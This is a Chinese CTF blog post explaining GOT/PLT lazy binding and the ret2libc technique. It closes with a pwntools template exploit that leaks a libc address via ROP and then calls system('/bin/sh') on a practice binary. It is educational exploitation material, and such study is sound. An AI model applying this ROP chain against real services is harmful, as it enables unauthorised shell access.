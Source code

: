 ```yaml
---
title: GOT与PLT
description: 从静态链接到ret2libc
categories: [CTF,pwn]
tags: [CTF]
image: 
    path: assets/img/bg/pic01.jpg
    lqip: assets/img/bg/pic01.jpg
---
```


GOT与PLT表是程序用于动态链接中延迟绑定功能的重要结构，在ret2libc类题型中非常重要，之前一直不是十分理解它的原理，故在此进行梳理总结。

# 链接

C程序在使用printf等库函数时需要在程序中使用
```C
#include<stdio.h>
```
等语句将包含了这些库函数定义的头文件包含到程序中，在编译程序后将包含了这些函数实现的libc库链接到程序中，最后在运行程序时将程序从磁盘中加载到内存里运行。因此可以看出链接方式的不同在程序静态的存储与动态的运行两个方面都会产生差异。

静态链接在程序编译完成后直接将整个libc库链接到了程序中，因此每个使用了libc库函数的静态链接程序都会包含一整份libc，即使他只用了其中一两个函数，即使运行在同一环境下的其他程序都有一份libc库，所以这其中必然造成大量的存储开销。只在当前环境下存储一份libc库，等到程序实际运行时再将其链接到程序中很明显要更优于此法。

动态链接就是再程序运行时链接库的链接方式，但当我们去实际思考它的实现方法时就会意识到一个重要的问题：

**如果等到运行时再连接库函数，那么静态文件中库函数的调用语句中库函数的地址该怎么写**  

很容易想到一个在计算机领域广泛应用的方法：添加一个中间层。一步做不到的事就分两步做。

GOT表就是这样的一个中间层。

# GOT表与地址绑定
既然在没有运行时无法得到具体库函数的地址，但又需要在程序中填一个地址，那么一个很自然的想法就是使用一张表格预先为每一个库函数分配一个表项，用这张跳转表的各个表项的内容作为库函数的实际地址，如：
```asm
call GOT[printf]
```
而在静态程序中这张表初始化为空，几乎不占用内存空间，运行程序时再把各个库函数的实际地址填写到这张表中即可。

**所以这里需要明确一个关键的认知：GOT表中存放的是库函数的实际地址，是数据，而不是调用这些库函数的语句**

但它也带来了新的问题：

除了为libc函数分配地址之外，他还多了一步将所有库函数的地址绑定到GOT表中这一步，而这一步会使程序的启动变得相当缓慢，另一方面，可能绑定的库函数不一定都会用得上。为解决这个问题，PLT应运而生。

# PLT表与延迟绑定
既然不能在程序启动时把所有的库函数都绑定到GOT表中，那么就考虑在程序初次使用该函数时再绑定，因此再添加一个中间步骤，程序在调用函数时使用的地址设为对应的PLT表项的地址。

PLT表为程序提供了一个调用库函数的跳板，PLT表中有多个表项，分别存储对应的多个库函数的相关语句，一般可以分为三个基本的语句，如：
```C
printf@plt:
    jmp QWORD PTR [GOT[printf]]  ; 1.跳转到 GOT 中保存的地址
    push offset_of_printf        ; 2.压入函数标识符
    jmp plt[0]                   ; 3.跳转到动态链接器
```
而GOT表中初始化存储库函数地址就是的就是对应的统一库函数plt表项中的2号语句，换言之，程序在初次执行一个库函数时，会直接跳转到它对应的plt表项的位置，其中是一组命令，第一条命令是跳转到*GOT表中保存的地址对应的位置*，第二条和第三条用于进行动态链接，第一次执行时*GOT表中保存的地址对应的位置*就是进行动态链接的语句的位置，完成动态链接后GOT表中对应表项存储的就是库函数的实际地址。当第二次执行该库函数时，程序仍然跳转到PLT表的表项，但此时该表项中的第一条语句就会直接带着程序跳转到实际的地址。

即：第一次执行plt表中语句时会进行动态绑定，之后执行plt表中语句会执行实际的函数

这里特意强调执行**plt表中的语句**，而不是库函数的实际语句，是因为我们在ROP题目中执行库函数的方法需要区分为三种，难度逐级上升：
1. ret到程序中原有的**call 库函数**的语句(即ret2text)
2. ret到已经实现过动态绑定的库函数的plt表项语句(库函数@plt)
3. ret到库函数映射到程序地址空间中的实际地址

三种方法中实际地址最为万能，因此ret2libc的目的就在于获取到库函数的实际地址，而在获取到实际地址时我们若想要执行一些库函数，就只能使用一些已经在程序中显式调用过的函数，使用他们的plt表项中的语句来执行他们(**plt表与GOT表的地址是在静态程序中可以直接得到的，而libc的实际地址每次运行都会变**)。

因此ret2libc的关键操作就在于获取该进程中libc库函数system的实际地址，只要掌握了这个地址，无论源程序中是否有调用过system函数我们都可以执行system函数。

为获取这个函数地址我们首先要明确两点：
1. libc中各库函数的相对偏移地址仅仅于libc的版本有关
2. libc在实际程序中的基地址每次运行时都会变化

所以我们只需要利用前两种函数执行的方法泄露出任何一个库函数的实际地址(GOT表项的内容)我们就可以知道libc中任何一个函数的实际地址。实际上对于开启了地址随机化的程序也都是这个思路，因为程序静态文件代码的相对地址都是固定的，即使基地址进行了随机化，只要泄露出一个就可以知道其他所有的地址。

一段模板利用脚本及解析如下：
```python
from pwn import *

binary = "pwn.bin"
elf = ELF(binary)
libc = ELF("libc.so.6")

puts_offset = libc.symbols["puts"]
bin_sh_offset = next(libc.search(b"/bin/sh"))
# 由ROPgadget获取
pop_rdi_ret_addr = p64(0x000000000040117e) 

# p = remote(host,ip)
p = process("/mnt/d/Learning/fifith_grade/level-progress/pwn/ret2libc/pwn.bin")
payload = b"A"*64 + b"B"*8
payload += pop_rdi_ret_addr
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.symbols["vuln"])  #最后还要返回到vuln函数
p.sendlineafter("Go Go Go!!!", payload)
# 打印出puts函数的真实地址

# 重点关注一下这个格式
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))  


libc_base = puts_addr - puts_offset
print(f"成功泄露libc基地址:{hex(libc_base)}")
payload2 = b"A"*64 + b"B"*8
payload2 += p64(0x000000000040117e + 1)   #栈平衡
payload2 += pop_rdi_ret_addr
payload2 += p64(libc_base + bin_sh_offset)
payload2 += p64(libc_base + libc.symbols["system"])
p.sendline(payload2)
p.interactive()
```